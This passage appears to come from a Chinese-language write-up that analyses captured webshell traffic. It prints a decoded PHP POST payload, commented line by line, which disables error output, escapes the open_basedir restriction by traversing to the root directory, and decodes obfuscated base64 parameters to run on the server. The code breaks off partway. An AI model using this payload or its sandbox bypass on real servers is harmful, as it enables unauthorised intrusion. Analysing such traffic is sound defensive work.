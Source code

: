 
`UA`头发生了变化

`User-Agent`: `Opera/9.80 (X11; Linux i686; U; es-ES) Presto/2.8.131 Version/11.11`

post内容：

::: details
```php
@ini_set("display_errors", "0"); // 关闭错误信息输出
@set_time_limit(0); // 不限制执行时间
$opdir = @ini_get("open_basedir");

if ($opdir) {
    $ocwd = dirname($_SERVER["SCRIPT_FILENAME"]);
    $oparr = preg_split("/;|:/", $opdir);
    @array_push($oparr, $ocwd, sys_get_temp_dir());

    foreach ($oparr as $item) {
        if (!@is_writable($item)) {
            continue;
        }
        $tmdir = $item . "/.947b1dd388"; // 创建一个临时目录
        @mkdir($tmdir);
        if (!@file_exists($tmdir)) {
            continue;
        }
        @chdir($tmdir);
        @ini_set("open_basedir", "..");

        // 目录穿越至根目录
        $cntarr = @preg_split("/\\\\|\\//", $tmdir);
        for ($i = 0; $i < sizeof($cntarr); $i++) {
            @chdir("..");
        }

        // 尝试取消 open_basedir 限制
        @ini_set("open_basedir", "/");
        @rmdir($tmdir);
        break;
    }
}

// 简单的输出编码函数，实际未做处理
function asenc($out) {
    return $out;
}

// 统一的输出方式（带标记）
function asoutput() {
    $output = ob_get_contents();
    ob_end_clean();
    echo "b82081";
    echo @asenc($output);
    echo "0b87325e";
}

ob_start();

try {
    // 从 POST 中提取参数（base64 解码，去除前两个字符）
    $p = base64_decode(substr($_POST["pce8f422c382ad"], 2));
    $s = base64_decode(substr($_POST["l7aa1832b83fbc"], 2));
    $envstr = @base64_decode(substr($_POST["uf31f0e8b4315e"], 2));

    $d = dirname($_SERVER["SCRIPT_FILENAME"]);
```